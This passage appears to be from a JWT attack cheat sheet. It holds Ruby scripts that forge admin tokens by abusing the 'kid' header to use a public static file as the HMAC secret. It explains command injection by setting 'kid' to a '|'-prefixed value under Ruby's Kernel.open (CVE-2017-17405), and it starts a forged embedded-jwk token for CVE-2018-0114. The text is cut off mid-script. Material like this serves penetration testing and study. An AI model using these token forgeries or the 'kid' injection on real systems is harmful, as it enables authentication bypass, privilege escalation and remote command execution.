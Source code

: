     # eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IjAwMDEifQ.eyJ1c2VyIjpudWxsfQ.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
    # base64 decoded:
    # header = {"typ":"JWT","alg":"HS256","kid":"0001"}
    # payload = {"user":null}

    # we need to guess the bootstrap location
    header = {"typ":"JWT","alg":"HS256","kid":"public/css/bootstrap.css"}
    payload = {"user":"admin"}

    data = Base64.strict_encode64(header)+"."+Base64.strict_encode64(payload)
    data.gsub!("=","")

    # If we use booststrap.css for example, download the file first
    secret = File.open("bootstrap.css").read

    signature = Base64.urlsafe_encode64(OpenSSL::HMAC.digest(OpenSSL::Digest.new("sha256"), secret, data))

    puts data+"."+signature
    ```

We can run code execution here if the server using `ruby` with `Kernel.open/open` (**Ruby will run the filename as a command if the filename starts with `|`**). Look the CVE [here](https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/). We just need to change the `kid` value to `| your-command-here` and we good to go! We don't need to change the payload or the secret because the code execution will occurs before the secret key is used. 

## JWS embedded jwk
It's [CVE-2018-0114](https://nvd.nist.gov/vuln/detail/CVE-2018-0114). The header and the payload are base64 without padding (Base64({})), but the signature is base64 encoded.

Here is the example code:

```ruby
# eyJhbGciOiJSUzI1NiIsImtpZCI6IlJYODdQUl96YVBFVkowNlBIUVBZb0MxZHVUVnBrTG5Ia01XajB6bzBoRTAifQ.
# YWJj.
# guPNBE8BAP3ZOXrUXu_pOv7TD9qxuzy1X0vR17EW1XeIYiV6n4ayw-9lX2eHk3-fdTxy-OiF2RMFhQcU8lN5qcsn1QtXCzmMkvYIw4xkBplu_LhUGeqvzKzg7CccC0F4sD8ZED3q9sYopcy7Mcnx_JOhpTtWs4ZjV7NURCl32jBuhSbuPQeaIebzbPlCgAZH8As5j1W0Knt_14au7N4PC4T1izmvk_vucmz3iGmTCgVoiQqz1YJd3LbSlEet3nao24kbEiURzGhCNGjSb6Qab2DHUz9CkPnX47UdIvSsfLtQ6GOh2pzvRXuK3A21OLeu4p0E_21Y-HEt1NATj-Qujg

# run this first 
# $ openssl genrsa -out private.pem 2048

require 'json'
require 'openssl'
require 'base64'

priv_key = OpenSSL::PKey::RSA.new File.read 'private.pem'
pub_key = priv_key.public_key
n = Base64.urlsafe_encode64(pub_key.n.to_s(2)).gsub(/=+$/, "")
e = Base64.urlsafe_encode64(pub_key.e.to_s(2)).gsub(/=+$/, "")

header = {"alg":"RS256", "jwk" => {"kty" => "RSA", "kid" => "hello", "use" => "sig", "n" => n, "e" => e }}
```